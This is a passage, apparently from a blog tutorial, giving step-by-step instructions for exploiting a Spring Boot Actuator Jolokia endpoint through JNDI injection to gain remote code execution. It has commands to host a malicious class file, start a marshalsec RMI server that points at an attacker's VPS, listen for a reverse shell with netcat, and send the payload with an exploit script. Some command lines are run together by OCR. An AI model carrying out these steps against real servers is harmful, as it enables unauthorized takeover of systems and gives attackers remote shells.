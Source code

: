 ```
# Use python to quickly start the http serverpython2 -m SimpleHTTPServer 80python3 -m http.server 80
```

Copy the compiled class file in step 2 to the root directory of the HTTP server.\
[](https://www.blogger.com/#)**Step 4: **Set up malicious rmi service

Download [marshalsec](https://github.com/mbechler/marshalsec) and use the following commands to set up the corresponding rmi service:

|

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer [http://your-vps-ip:80/](http://your-vps-ip/)#JNDIObject 1389

 |

**Step 5:** Listen to the port of the bouncing shell

Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lvp 443
```

[](https://www.blogger.com/#)**Step 6: **Send malicious payload

- [Modify the target address, RMI address, port, and other information in the spring-boot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) script according to the actual situation, and then run it on the server you control.

[](https://www.blogger.com/#)

#### Vulnerability principle:

- Use jolokia to call createJNDIRealm to create JNDIRealm

- Set the connectionURL address to RMI Service URL

- Set context factory to RegistryContextFactory

- Stop Realm

- Start Realm to trigger JNDI injection of specified RMI address, causing RCE vulnerability

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [Yet Another Way to Exploit Spring Boot Actuators via Jolokia (<https://www.veracode.com/blog/research/exploiting-spring-boot-actuators>)\
[](https://www.blogger.com/#)**Vulnerable environment:\
**\
[repository/springboot-jolokia-logback-rce](https://www.blogger.com/#)

Normal access:

```
http://127.0.0.1:9094/env _
```
